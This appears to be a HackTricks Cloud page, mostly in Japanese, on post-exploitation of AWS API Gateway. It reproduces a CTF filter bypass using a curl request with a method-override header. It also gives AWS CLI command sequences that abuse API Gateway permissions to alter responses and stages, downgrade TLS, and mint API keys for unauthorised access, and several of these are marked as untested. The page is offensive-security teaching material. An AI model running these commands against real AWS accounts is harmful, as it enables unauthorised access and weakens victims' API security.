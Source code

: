 # AWS - API Gateway Post Exploitation

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../.gitbook/assets/image (1) (1) (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1) (1) (1) (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../.gitbook/assets/image (2) (1).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2) (1).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

## API Gateway

For more information check:

{% content-ref url="../aws-services/aws-api-gateway-enum.md" %}
[aws-api-gateway-enum.md](../aws-services/aws-api-gateway-enum.md)
{% endcontent-ref %}

### Access unexposed APIs

[https://us-east-1.console.aws.amazon.com/vpc/home#CreateVpcEndpoint](https://us-east-1.console.aws.amazon.com/vpc/home?region=us-east-1#CreateVpcEndpoint:) でサービス `com.amazonaws.us-east-1.execute-api` を使用してエンドポイントを作成し、アクセス可能なネットワーク（EC2マシン経由の可能性あり）でエンドポイントを公開し、すべての接続を許可するセキュリティグループを割り当てます。\
その後、EC2マシンからエンドポイントにアクセスできるようになり、以前は公開されていなかったゲートウェイAPIを呼び出すことができます。

### Bypass Request body passthrough

この技術は[**このCTFの解説**](https://blog-tyage-net.translate.goog/post/2023/2023-09-03-midnightsun/?_x_tr_sl=en&_x_tr_tl=es&_x_tr_hl=en&_x_tr_pto=wapp)で見つかりました。

[AWSのドキュメント](https://docs.aws.amazon.com/AWSCloudFormation/latest/UserGuide/aws-properties-apigateway-method-integration.html)の`PassthroughBehavior`セクションに示されているように、デフォルトでは、リクエストの**Content-Type**ヘッダーをチェックする際に、値**`WHEN_NO_MATCH`**は、変換なしでリクエストをバックエンドに渡します。

したがって、CTFではAPI Gatewayに統合テンプレートがあり、`Content-Type: application/json`でリクエストが送信されたときに**フラグが応答で流出するのを防いでいました**：

{% code overflow="wrap" %}
```yaml
RequestTemplates:
application/json: '{"TableName":"Movies","IndexName":"MovieName-Index","KeyConditionExpression":"moviename=:moviename","FilterExpression": "not contains(#description, :flagstring)","ExpressionAttributeNames": {"#description": "description"},"ExpressionAttributeValues":{":moviename":{"S":"$util.escapeJavaScript($input.params(''moviename''))"},":flagstring":{"S":"midnight"}}}'
```
{% endcode %}

しかし、**`Content-type: text/json`**を持つリクエストを送信することで、そのフィルターを回避することができました。

最後に、API Gatewayが`Get`と`Options`のみを許可していたため、ボディにクエリを含むPOSTリクエストを送信し、ヘッダー`X-HTTP-Method-Override: GET`を使用することで、任意のdynamoDBクエリを制限なしに送信することが可能でした。

{% code overflow="wrap" %}
```bash
curl https://vu5bqggmfc.execute-api.eu-north-1.amazonaws.com/prod/movies/hackers -H 'X-HTTP-Method-Override: GET' -H 'Content-Type: text/json'  --data '{"TableName":"Movies","IndexName":"MovieName-Index","KeyConditionExpression":"moviename = :moviename","ExpressionAttributeValues":{":moviename":{"S":"hackers"}}}'
```
{% endcode %}

### 使用プラン DoS

**列挙**セクションでは、**キーの使用プランを取得する**方法を見ることができます。キーを持っていて、それが**月あたりX回の使用に制限されている**場合、**それを使用してDoSを引き起こす**ことができます。

**APIキー**は、**`x-api-key`**という**HTTPヘッダー**に**含める**必要があります。

### `apigateway:UpdateGatewayResponse`, `apigateway:CreateDeployment`

`apigateway:UpdateGatewayResponse`および`apigateway:CreateDeployment`の権限を持つ攻撃者は、**既存のGateway Responseを変更して、機密情報を漏洩させるカスタムヘッダーやレスポンステンプレートを含めたり、悪意のあるスクリプトを実行させたりすることができます**。

{% code overflow="wrap" %}
```bash
API_ID="your-api-id"
RESPONSE_TYPE="DEFAULT_4XX"

# Update the Gateway Response
aws apigateway update-gateway-response --rest-api-id $API_ID --response-type $RESPONSE_TYPE --patch-operations op=replace,path=/responseTemplates/application~1json,value="{\"message\":\"$context.error.message\", \"malicious_header\":\"malicious_value\"}"

# Create a deployment for the updated API Gateway REST API
aws apigateway create-deployment --rest-api-id $API_ID --stage-name Prod
```
{% endcode %}

**潜在的な影響**: 機密情報の漏洩、悪意のあるスクリプトの実行、またはAPIリソースへの不正アクセス。

{% hint style="info" %}
テストが必要
{% endhint %}

### `apigateway:UpdateStage`, `apigateway:CreateDeployment`

`apigateway:UpdateStage`および`apigateway:CreateDeployment`の権限を持つ攻撃者は、**既存のAPI Gatewayステージを変更してトラフィックを別のステージにリダイレクトしたり、キャッシュ設定を変更してキャッシュデータへの不正アクセスを得ることができます**。

{% code overflow="wrap" %}
```bash
API_ID="your-api-id"
STAGE_NAME="Prod"

# Update the API Gateway stage
aws apigateway update-stage --rest-api-id $API_ID --stage-name $STAGE_NAME --patch-operations op=replace,path=/cacheClusterEnabled,value=true,op=replace,path=/cacheClusterSize,value="0.5"

# Create a deployment for the updated API Gateway REST API
aws apigateway create-deployment --rest-api-id $API_ID --stage-name Prod
```
{% endcode %}

**潜在的な影響**: キャッシュされたデータへの不正アクセス、APIトラフィックの中断または傍受。

{% hint style="info" %}
テストが必要
{% endhint %}

### `apigateway:PutMethodResponse`, `apigateway:CreateDeployment`

`apigateway:PutMethodResponse` および `apigateway:CreateDeployment` の権限を持つ攻撃者は、**既存のAPI Gateway REST APIメソッドのメソッドレスポンスを変更して、機密情報を漏洩させるカスタムヘッダーやレスポンステンプレートを含めたり、悪意のあるスクリプトを実行させたりすることができます**。
```bash
API_ID="your-api-id"
RESOURCE_ID="your-resource-id"
HTTP_METHOD="GET"
STATUS_CODE="200"

# Update the method response
aws apigateway put-method-response --rest-api-id $API_ID --resource-id $RESOURCE_ID --http-method $HTTP_METHOD --status-code $STATUS_CODE --response-parameters "method.response.header.malicious_header=true"

# Create a deployment for the updated API Gateway REST API
aws apigateway create-deployment --rest-api-id $API_ID --stage-name Prod
```
**潜在的な影響**: 機密情報の漏洩、悪意のあるスクリプトの実行、またはAPIリソースへの不正アクセス。

{% hint style="info" %}
テストが必要
{% endhint %}

### `apigateway:UpdateRestApi`, `apigateway:CreateDeployment`

`apigateway:UpdateRestApi`および`apigateway:CreateDeployment`の権限を持つ攻撃者は、**API Gateway REST APIの設定を変更してログを無効にしたり、最小TLSバージョンを変更したりすることができ、APIのセキュリティを弱める可能性があります**。
```bash
API_ID="your-api-id"

# Update the REST API settings
aws apigateway update-rest-api --rest-api-id $API_ID --patch-operations op=replace,path=/minimumTlsVersion,value='TLS_1.0',op=replace,path=/apiKeySource,value='AUTHORIZER'

# Create a deployment for the updated API Gateway REST API
aws apigateway create-deployment --rest-api-id $API_ID --stage-name Prod
```
**潜在的な影響**: APIのセキュリティが弱まり、未承認のアクセスを許可したり、機密情報を露出させる可能性があります。

{% hint style="info" %}
テストが必要
{% endhint %}

### `apigateway:CreateApiKey`, `apigateway:UpdateApiKey`, `apigateway:CreateUsagePlan`, `apigateway:CreateUsagePlanKey`

`apigateway:CreateApiKey`、`apigateway:UpdateApiKey`、`apigateway:CreateUsagePlan`、および`apigateway:CreateUsagePlanKey`の権限を持つ攻撃者は、**新しいAPIキーを作成し、それらを使用プランに関連付け、これらのキーを使用してAPIに未承認でアクセスすることができます**。
```bash
# Create a new API key
API_KEY=$(aws apigateway create-api-key --enabled --output text --query 'id')

# Create a new usage plan
USAGE_PLAN=$(aws apigateway create-usage-plan --name "MaliciousUsagePlan" --output text --query 'id')

# Associate the API key with the usage plan
aws apigateway create-usage-plan-key --usage-plan-id $USAGE_PLAN --key-id $API_KEY --key-type API_KEY
```
**潜在的影響**: APIリソースへの不正アクセス、セキュリティコントロールのバイパス。

{% hint style="info" %}
テストが必要
{% endhint %}

{% hint style="success" %}
AWSハッキングを学び、実践する:<img src="../../../.gitbook/assets/image (1) (1) (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1) (1) (1) (1).png" alt="" data-size="line">\
GCPハッキングを学び、実践する: <img src="../../../.gitbook/assets/image (2) (1).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2) (1).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>HackTricksをサポートする</summary>

* [**サブスクリプションプラン**](https://github.com/sponsors/carlospolop)を確認してください！
* **💬 [**Discordグループ**](https://discord.gg/hRep4RUj7f)または[**Telegramグループ**](https://t.me/peass)に参加するか、**Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**をフォローしてください。**
* **[**HackTricks**](https://github.com/carlospolop/hacktricks)および[**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud)のGitHubリポジトリにPRを提出してハッキングトリックを共有してください。**

</details>
{% endhint %}
